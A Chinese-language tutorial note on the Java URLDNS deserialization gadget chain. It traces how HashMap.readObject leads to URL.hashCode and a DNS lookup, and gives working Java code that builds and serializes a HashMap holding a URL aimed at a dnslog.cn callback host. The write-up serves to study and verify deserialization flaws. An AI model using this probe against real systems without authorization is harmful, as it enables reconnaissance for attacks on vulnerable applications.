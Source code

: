 URLDNS链由于没有版本和依赖限制，。一般用于反序列化漏洞的验证，利用反序列化触发这条链子，引发DNS解析，以便验证漏洞。
```
已知：
1、HashMap类实现了Serializable是可以序列化和反序列化的。并重写了ReadObject方法。
2、HashMap的容器存入URL类型的对象时的Put方法，调用hash函数会触发对象的hashCode函数来计算hashcode。
3、HashMap重写了ReadObject方法，在反序列化时也会调用hash函数计算hashCode。
```

```
正向触发：
创建hashmap为URL类型的对象和URL对象
使用put存入URL对象数据到hashmap中，作为键或值均可
在hashmap调用put时，调用了Hashmap.java中的hash函数
在hash函数中又调用了这个URL对象的hashCode方法
URL对象中的hashcode方法中，如果hashcode=-1(还未初始化计算hashcode)，会执行URLStreamHandler中的hashCode函数
在URLStreamHandler中的hashCode函数中执行了getHostAddress函数解析了URL，获取ip，因此触发DNS解析(如果失败换一个wifi)

hashmap.put(URL,x)->hash(URL)->URL.hashcode-()>handler.hashcode()->getHostAddress()
```
## **反序列化触发**
payload
```
HashMap<URL, Integer> hashMap = new HashMap<>();
URL url = new URL("http://r2t55a.dnslog.cn");
Class<? extends URL> clazz = url.getClass();
Field code = clazz.getDeclaredField("hashCode");
code.setAccessible(true);
code.set(url, 1); // 伪装hashcode已经初始化，为了让getHostName()不执行。
hashMap.put(url, 1);
code.set(url, -1);// 让hashcode没有初始化，为了再反序列化的时候再初始化执行getHostName()。
```

```
FileOutputStream fileOutputStream = new FileOutputStream("ser.bin");
ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
objectOutputStream.writeObject(hashMap);
fileOutputStream.close();
objectOutputStream.close();

FileInputStream fileInputStream = new FileInputStream("ser.bin");
ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
Object o = objectInputStream.readObject();
System.out.println(o);
objectInputStream.close();
fileInputStream.close();
```
原理：
`java.util.HashMap`实现了`Serializable`接口，重写了`readObject`, 在反序列化时会调用`hash`函数计算`key`的`hashCode`，而`java.net.URL`的`hashCode`在计算时会调用`getHostAddress`来解析域名, 从而发出`DNS`请求。
```

1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()
```
参考：<https://z-bool.github.io/2022/10/16/java-deserializ-1/>

